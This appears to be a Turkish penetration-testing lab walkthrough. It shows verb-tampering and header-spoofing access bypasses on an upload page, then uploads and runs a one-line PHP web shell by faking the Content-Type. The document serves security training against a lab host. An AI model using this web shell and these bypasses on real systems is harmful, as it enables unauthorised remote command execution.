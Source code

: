 ```shell-session
```

Birkaç ilginç sonuç alıyoruz. 403 forbidden hata koduna sahip dosyalar tipik olarak dosyaların var olduğu anlamına gelir, ancak web sunucusu onlara anonim olarak göz atmamıza izin vermez. Uploads ve upload.php sayfaları hemen dikkatimizi çeker. Eğer bir PHP web shell'i yükleyebiliyorsak, büyük ihtimalle dizin listelemenin etkin olduğu /uploads dizinine doğrudan göz atabiliriz. Bunu geçerli bir düşük riskli bulgu olan Directory Listing Enabled olarak not edebilir ve rapor yazımını hızlı ve zahmetsiz hale getirmek için gerekli kanıtları yakalayabiliriz. upload.php dosyasına göz attığımızda 403 Forbidden hata mesajıyla karşılaşıyoruz, ancak durum kodu 200 OK başarı kodu olduğu için bu ilginç bir durum. Bunu daha derinlemesine inceleyelim.

Burada isteği yakalamak ve neler olup bittiğini anlamak için Burp Suite'e ihtiyacımız olacak. İsteği yakalayıp Burp Repeater'a gönderirsek ve ardından OPTIONS yöntemini kullanarak sayfayı yeniden talep edersek, çeşitli yöntemlere izin verildiğini görürüz: GET,POST,PUT,TRACK,OPTIONS. TRACK yöntemini deneyip HTTP yanıtında X-Custom-IP-Authorization: başlığının ayarlandığını görene kadar çeşitli seçenekler arasında dolaştığımızda her biri bize bir sunucu hatası verir. Bu saldırı türü hakkında bilgi edinmek için HTTP Verb Tampering hakkındaki Web Attacks modüllerine başvurabiliriz.

![Pasted image 20241231015529.png](/img/user/resimler/Pasted%20image%2020241231015529.png)

İstekle biraz oynamak ve X-Custom-IP-Authorization header'ını eklemek: 127.0.0.1 başlığını Burp Repeater'daki HTTP isteğine eklemek ve ardından sayfayı TRACK yöntemiyle tekrar istemek ilginç bir sonuç verir. HTTP response body'de bir dosya yükleme formu gibi görünen bir şey görüyoruz.

![Pasted image 20241231015610.png](/img/user/resimler/Pasted%20image%2020241231015610.png)

Repeater'daki Response penceresinde herhangi bir yere sağ tıklarsak, yanıtı tarayıcıda göster'i seçebilir, ortaya çıkan URL'yi kopyalayabilir ve Burp proxy ile kullandığımız tarayıcıda talep edebiliriz. Bizim için bir fotoğraf düzenleme platformu yüklenir.

![Pasted image 20241231015735.png](/img/user/resimler/Pasted%20image%2020241231015735.png)

Browse butonuna tıklayabilir ve aşağıdaki içeriğe sahip basit bir webshell yüklemeyi deneyebiliriz:

```php
<?php system($_GET['cmd']); ?>
```

Dosyayı 5351bf7271abaa2267e03c9ef6393f13.php veya benzer bir şekilde kaydedin. Halka açık bir web sitesine bir web shell yüklerken rastgele dosya adları oluşturmak iyi bir uygulamadır, böylece rastgele bir saldırgan bu dosyayı bulamaz. Bizim durumumuzda, dizin listeleme etkin olduğundan ve herhangi biri /uploads dizinine göz atıp onu bulabileceğinden, parola korumalı veya IP adresimizle sınırlı bir şey kullanmak isteriz. .php dosyasını doğrudan yüklemeye çalıştığınızda bir hata ile karşılaşırsınız: “JPG, JPEG, PNG ve GIF dosyalarına izin verilir.”, bu da bazı zayıf client-side doğrulamalarının muhtemelen mevcut olduğunu gösterir. POST isteğini alıp bir kez daha Repeater'a gönderebilir ve dosyamızı geçerli olarak kabul etmesi için uygulamayı kandırıp kandıramayacağımızı görmek için istekteki Content-Type: başlığını değiştirmeyi deneyebiliriz. Web shell'imizi geçerli bir PNG resim dosyası olarak göstermek için başlığı Content-Type: image/png olarak değiştirmeyi deneyeceğiz. İşe yarıyor! Aşağıdaki yanıtı alıyoruz: Dosya yüklendi /uploads/5351bf7271abaa2267e03c9ef6393f13.php.

Artık bu web shell ile etkileşime geçmek ve web sunucusunda komutlar çalıştırmak için cURL kullanabiliriz.

```shell-session
M1R4CKCK@htb[/htb]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
